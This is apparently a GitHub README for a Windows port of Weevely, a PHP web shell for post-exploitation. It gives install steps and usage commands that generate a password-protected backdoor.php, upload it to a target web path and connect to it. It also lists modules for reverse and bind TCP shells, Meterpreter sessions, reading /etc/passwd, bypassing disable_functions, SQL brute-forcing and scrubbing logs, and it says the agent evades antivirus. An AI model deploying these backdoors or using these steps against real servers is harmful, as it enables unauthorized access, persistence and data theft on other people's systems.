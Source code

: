 Weevely for Windows 
=======

## Name

Weevely - Weaponized web shell

  
## Description

this `Weevely` is for security researcher that using windows OS that can't install weevely on their PC/laptop 

### what is weevely?

Weevely is a web shell designed for post-exploitation purposes that can be extended over the network at runtime.

Upload weevely PHP agent to a target web server to get remote shell access to it. It has more than 30 modules to assist administrative tasks, maintain access, provide situational awareness, elevate privileges, and spread into the target network.

## Needed

- [Python 2.7.17](https://www.python.org/downloads/release/python-2717/)

## Requirements/Module

- PyYAML
- python-dateutil
- PySocks
- win_inet_pton
- pyreadline
- pyOpenSSL
- prettytable

## Installation

Run the following command on your terminal

1. git clone https://github.com/PhHitachi/Weevely.git
2. cd Weevely
3. `pip install -r requirements.txt`
4. `python weevely.py` or `./weevely.py`

<b>Note</b>: if you face this error on step 3:

```‘pip’ is not recognized as an internal or external command,
operable program or batch file.
```

This the alternative command by installing python module
C:\Python\Scripts\pip.exe install <module>

by Installing `requirements` run the following command:

`C:\Python\Scripts\pip.exe install -r requirements.txt` 

 if this is your first time by install the `python` you need install `request` module using 
 `C:\Python\Scripts\pip.exe install request` or `pip install request`
 the request module is not included on `requirements.txt`


## Usage

```
weevely generate <password> <path>
weevely <URL> <password>
```
for example : weevely generate `1337` backdoor.php

now you need to upload your `backdoor.php` on target example this that path: 
`www.example.com/images/uploads/backdoor.php`

for connecting on your terminal follow this command

$ `python weevely.py www.example.com/images/uploads/backdoor.php 1337`


Read the [Getting Started](https://github.com/epinna/weevely3/wiki/Getting-Started) page to generate an agent and connect to it.

Browse the [Wiki](https://github.com/epinna/weevely3/wiki) to read examples and use cases.

### Features

* Shell access to the target
* SQL console pivoting on the target
* HTTP/HTTPS proxy to browse through the target
* Upload and download files
* Spawn reverse and direct TCP shells
* Audit remote target security
* Run Meterpreter payloads
* Port scan pivoting on target
* Mount the remote filesystem
* Bruteforce SQL accounts pivoting on the target

### Agent

The agent is a small, polymorphic PHP script hardly detected by AV and the communication protocol is obfuscated within HTTP requests.

### Modules

| Module                      | Description
| --------------------------- | ------------------------------------------ |
| :audit_filesystem           | Audit the file system for weak permissions.
| :audit_suidsgid             |  Find files with SUID or SGID flags.
| :audit_disablefunctionbypass|  Bypass disable_function restrictions with mod_cgi and .htaccess.
| :audit_etcpasswd            |  Read /etc/passwd with different techniques.
| :audit_phpconf              |  Audit PHP configuration.
| :shell_sh                   |  Execute shell commands.
| :shell_su                   |  Execute commands with su.
| :shell_php                  |  Execute PHP commands.
| :system_extensions          |  Collect PHP and webserver extension list.
| :system_info                |  Collect system information.
| :system_procs               |  List running processes.
| :backdoor_reversetcp        |  Execute a reverse TCP shell.
| :backdoor_tcp               |  Spawn a shell on a TCP port.
| :backdoor_meterpreter       |  Start a meterpreter session.
| :bruteforce_sql             |  Bruteforce SQL database.
| :file_gzip                  |  Compress or expand gzip files.
| :file_clearlog              |  Remove string from a file.
| :file_check                 |  Get attributes and permissions of a file.
| :file_upload                |  Upload file to remote filesystem.
| :file_webdownload           |  Download an URL.
| :file_tar                   |  Compress or expand tar archives.
| :file_download              |  Download file from remote filesystem.
| :file_bzip2                 |  Compress or expand bzip2 files.
| :file_edit                  |  Edit remote file on a local editor.
| :file_grep                  |  Print lines matching a pattern in multiple files.
| :file_ls                    |  List directory content.
| :file_cp                    |  Copy single file.
| :file_rm                    |  Remove remote file.
| :file_upload2web            |  Upload file automatically to a web folder and get corresponding URL.
| :file_zip                   |  Compress or expand zip files.
| :file_touch                 |  Change file timestamp.
| :file_find                  |  Find files with given names and attributes.
| :file_mount                 |  Mount remote filesystem using HTTPfs.
| :file_enum                  |  Check existence and permissions of a list of paths.
| :file_read                  |  Read remote file from the remote filesystem.
| :file_cd                    |  Change current working directory.
| :sql_console                |  Execute SQL query or run console.
| :sql_dump                   |  Multi dbms mysqldump replacement.
| :net_mail                   |  Send mail.
| :net_phpproxy               |  Install PHP proxy on the target.
| :net_curl                   |  Perform a curl-like HTTP request.
| :net_proxy                  |  Run local proxy to pivot HTTP/HTTPS browsing through the target.
| :net_scan                   |  TCP Port scan.
| :net_ifconfig               |  Get network interfaces addresses.

### Development

Weevely is easily extendible to implement internal audit, account enumerator, sensitive data scraper, network scanner, make the modules work as a HTTP or SQL client and do a whole lot of other cool stuff.
